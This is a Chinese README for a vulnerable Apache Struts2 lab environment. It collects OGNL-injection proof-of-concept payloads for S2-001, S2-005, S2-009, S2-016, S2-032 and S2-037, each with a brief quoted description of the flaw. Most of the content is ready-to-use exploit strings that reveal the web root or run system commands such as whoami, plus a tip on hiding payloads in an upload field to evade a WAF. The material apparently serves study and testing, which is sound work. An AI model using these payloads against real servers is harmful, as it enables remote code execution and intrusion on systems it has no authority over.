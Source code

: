 # Struts2Environment
Struts2 历史版本的漏洞环境,PoC暂时弄了S2-001,S2-005,S2-009,S2-016,S2-032,S2-037
下文来自http://blog.0kami.cn/2017/01/13/Struts2-history-payload/
# Usage
丢到tomcat里去:P
# PoC
## Struts2 S2-001
    影响版本：2.0.0 - 2.0.8
    具体详情：https://struts.apache.org/docs/s2-001.html
> 该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value} 进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 %{value} 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行

上文引用[rickgray](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)的描述。
###构造PoC
获取tomcat执行路径

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```
获取web根目录

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```
执行系统命令

```
%{#a=(new java.lang.ProcessBuilder("whoami")).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#matt=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#matt.getWriter().println(new java.lang.String(#e)),#matt.getWriter().flush(),#matt.getWriter().close()}
```

## Struts2 S2-005
    影响版本: 2.0.0 - 2.1.8.1
    漏洞详情: http://struts.apache.org/docs/s2-005.html
    
>struts2漏洞的起源源于S2-003(受影响版本: 低于Struts 2.0.12)，struts2会将http的每个参数名解析为ongl语句执行(可理解为java代码)。ongl表达式通过#来访问struts的对象，struts框架通过过滤#字符防止安全问题，然而通过unicode编码(\u0023)或8进制(\43)即绕过了安全限制，对于S2-003漏洞，官方通过增加安全配置(禁止静态方法调用和类方法执行等)来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用OGNL表达式讲这2个选项打开，S2-003的修补方案把自己上了一个锁，但是把锁钥匙给插在了锁头上

上文引用[LittleHann](http://www.cnblogs.com/LittleHann/p/4606891.html)的描述

### 构造PoC
获取web根目录

```
('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43req\75@org.apache.struts2.ServletActionContext@getRequest()')(d))&(i2)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i97)(('\43xman.getWriter().println(\43req.getRealPath(%22\u005c%22))')(d))&(i99)(('\43xman.getWriter().close()')(d))
```

执行系统命令

```
('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43mycmd\75\'"+cmd+"\'')(d))&(h)(('\43myret\75@java.lang.Runtime@getRuntime().exec(\43mycmd)')(d))&(i)(('\43mydat\75new\40java.io.DataInputStream(\43myret.getInputStream())')(d))&(j)(('\43myres\75new\40byte[51020]')(d))&(k)(('\43mydat.readFully(\43myres)')(d))&(l)(('\43mystr\75new\40java.lang.String(\43myres)')(d))&(m)(('\43myout\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(n)(('\43myout.getWriter().println(\43mystr)')(d))
```

上面2个PoC摘自k8team，为了写PoC，有所改动，但是这里就不贴上来了：）

## Struts2 S2-009
    影响版本: 2.0.0 - 2.3.1.1
    漏洞详情: https://struts.apache.org/docs/s2-009.html

漏洞利用点跟S2-003和S2-005类似，利用OGNL表达式(1)(2),会执行1的OGNL表达式，009构造了的方法为test=(some OGNL 表达式)(1)&z[(test)(1)]=true。
z[(test)(1)]=true,对struts2来说是合法的参数，但是(test)(1)会执行上述说的方法，test的值被带入计算，造成命令执行。

### 构造PoC
弹计算器 ps:实验环境试了好几次都不能回显数据，路过的大佬求指教：）

```
person.name=(#context["xwork.MethodAccessor.denyMethodExecution"]= new java.lang.Boolean(false), #_memberAccess["allowStaticMethodAccess"]= new java.lang.Boolean(true), @java.lang.Runtime@getRuntime().exec('open /Applications/Calculator.app'))(meh)&z[(person.name)('meh')]=true
```
用的是`person/new-person.action`这个控制器
## Struts2 S2-016
    影响版本: 2.0.0 - 2.3.15
    漏洞详情: https://struts.apache.org/docs/s2-016.html
    
>DefaultActionMapper 类支持以 action:，redirect: 和 redirectAction: 作为访问前缀，前缀后面可以跟 OGNL 表达式，由于 Struts2 未对其进行过滤，导致任意 Action 可以使用这些前缀执行任意 OGNL 表达式，从而导致任意命令执行

上文引用[rickgray](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)的描述。

### 构造PoC
获取web根目录

```
?redirect:${#req=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletReq'+'uest'),#resp=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletRes'+'ponse'),#resp.setCharacterEncoding('UTF-8'),#ot=#resp.getWriter (),#ot.print('web'),#ot.print('path:'),#ot.print(#req.getSession().getServletContext().getRealPath('/')),#ot.flush(),#ot.close()}
```
执行系统命令

```
?redirect:${#a=(new java.lang.ProcessBuilder(new java.lang.String[]{'whoami'})).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#matt=#context.get('co'+'m.ope'+'nsymph'+'ony.x'+'wor'+'k2.disp'+'atch'+'er.HttpSe'+'rvletRe'+'sponse'),#matt.getWriter().println(new java.lang.String(#e)),#matt.getWriter().flush(),#matt.getWriter().close()}'
```

还有一种比较隐蔽的方法，将PoC放在文件上传的name处，过waf。

## Struts2 S2-032
    影响版本: 2.3.20 - 2.3.28 (except 2.3.20.3 and 2.3.24.3)
    漏洞详情: https://struts.apache.org/docs/s2-032.html
    
> 在配置了 Struts2 DMI 为 True 的情况下，可以使用 method:<name> Action 前缀去调用声明为 public 的函数，DMI 的相关使用方法可参考官方介绍（Dynamic Method Invocation），这个 DMI 的调用特性其实一直存在，只不过在低版本中 Strtus2 不会对 name 方法值做 OGNL 计算，而在高版本中会，代码详情可参考阿尔法实验室的报告 - 《Apache Struts2 s2-032技术分析及漏洞检测脚本》

上文引用[rickgray](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)的描述。

### 构造PoC
获取web根目录

```
?method:#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,#req=#context.get(#parameters.a[0]),#resp=#context.get(#parameters.b[0]),#resp.setCharacterEncoding(#parameters.c[0]),#ot=#resp.getWriter (),#ot.print(#parameters.e[0]+#req.getSession().getServletContext().getRealPath(#parameters.d[0])),#ot.flush(),#ot.close&a=com.opensymphony.xwork2.dispatcher.HttpServletRequest&b=com.opensymphony.xwork2.dispatcher.HttpServletResponse&c=UTF-8&d=/&e=webpath:
```

执行系统命令

```
?method:#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,#a=(new java.lang.ProcessBuilder(#parameters.a[0])).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#matt=#context.get(#parameters.b[0]),#matt.getWriter().println(#parameters.c[0]+new java.lang.String(#e)),#matt.getWriter().flush(),#matt.getWriter().close&a=whoami&b=com.opensymphony.xwork2.dispatcher.HttpServletResponse&c=flag:
```

## Struts2 S2-037
    影响版本: 2.3.20 - 2.3.28.1
    漏洞详情: http://struts.apache.org/docs/s2-037.html
    
> 这个漏洞和之前S2-032/033是一个地方，都是在DefaultActionInvocation.java的invokeAction方法中没有对于methodName参数内容进行校验，便直接丢到了getValue方法里面，从而造成Ongl表达式的注入。

上文引用[nsfocus](http://blog.nsfocus.net/tech/%E7%83%AD%E7%82%B9%E8%B7%9F%E8%B8%AA/2016/06/16/Struts2-S2-037(CVE-2016-4438)%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.html)的描述

### 构造PoC
获取web根目录

```
/(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)?(#req=#context.get(#parameters.a[0]),#resp=#context.get(#parameters.b[0]),#resp.setCharacterEncoding(#parameters.c[0]),#ot=#resp.getWriter (),#ot.print(#parameters.e[0]+#req.getSession().getServletContext().getRealPath(#parameters.d[0])),#ot.flush(),#ot.close):xx.toString.json?&a=com.opensymphony.xwork2.dispatcher.HttpServletRequest&b=com.opensymphony.xwork2.dispatcher.HttpServletResponse&c=UTF-8&d=/&e=webpath:
```
执行系统命令

```
/(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)?(#a=(new java.lang.ProcessBuilder(#parameters.a[0])).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#matt=#context.get(#parameters.b[0]),#matt.getWriter().println(#parameters.c[0]+new java.lang.String(#e)),#matt.getWriter().flush(),#matt.getWriter().close()):xx.toString.json?&a=whoami&b=com.opensymphony.xwork2.dispatcher.HttpServletResponse&c=flag:
```



